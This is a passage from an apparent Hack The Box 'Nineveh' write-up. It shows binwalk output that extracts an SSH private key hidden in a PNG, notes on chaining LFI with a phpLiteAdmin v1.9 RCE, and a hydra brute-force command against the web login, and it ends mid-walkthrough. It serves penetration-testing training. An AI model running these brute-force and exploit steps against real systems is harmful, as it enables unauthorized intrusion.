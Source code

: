 	Scan Time:     2022-08-24 01:41:19
	Target File:   /root/htb/nineveh/nineveh.png
	MD5 Checksum:  353b8f5a4578e4472c686b6e1f15c808
	Signatures:    411
	
	DECIMAL       HEXADECIMAL     DESCRIPTION
	------------------------------------------------------------------------------
	0             0x0             PNG image, 1497 x 746, 8-bit/color RGB, non-interlaced
	84            0x54            Zlib compressed data, best compression
	2881744       0x2BF8D0        POSIX tar archive (GNU)
	
	
	Scan Time:     2022-08-24 01:41:20
	Target File:   /root/htb/nineveh/_nineveh.png.extracted/54
	MD5 Checksum:  d41d8cd98f00b204e9800998ecf8427e
	Signatures:    411
	
	DECIMAL       HEXADECIMAL     DESCRIPTION
	------------------------------------------------------------------------------
	
	
	Scan Time:     2022-08-24 01:41:20
	Target File:   /root/htb/nineveh/_nineveh.png.extracted/secret/nineveh.priv
	MD5 Checksum:  f426d661f94b16292efc810ebb7ea305
	Signatures:    411
	
	DECIMAL       HEXADECIMAL     DESCRIPTION
	------------------------------------------------------------------------------
	0             0x0             PEM RSA private key
	
	
	Scan Time:     2022-08-24 01:41:20
	Target File:   /root/htb/nineveh/_nineveh.png.extracted/secret/nineveh.pub
	MD5 Checksum:  6b60618d207ad97e76664174e805cfda
	Signatures:    411
	
	DECIMAL       HEXADECIMAL     DESCRIPTION
	------------------------------------------------------------------------------
	0             0x0             OpenSSH RSA public key
	```
	- `secret` directory
		- This is probably what the note is refering to
		- Contains SSH private key, however TCP/22 (SSH) is not up, we might be able to use it later.



## TCP/443 (HTTPS) - phpLiteAdmin v1.9 RCE
1. Proceed to `db` we see `phpLiteAdmin v1.9`, the moment I saw this, I knew by combining the LFI exploit and `phpLiteAdmin v1.9` exploit, we can obtain a low-privilege shell.
	- Vulnhub Zico2 - InitialFoothold has the same exploit!
2. Bruteforce w/ `hydra` again
	```
	┌──(root💀kali)-[~/htb/nineveh]
	└─# hydra -l admin -P /usr/share/wordlists/rockyou.txt $ip https-post-form "/db/index.php :password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password."  -VI
	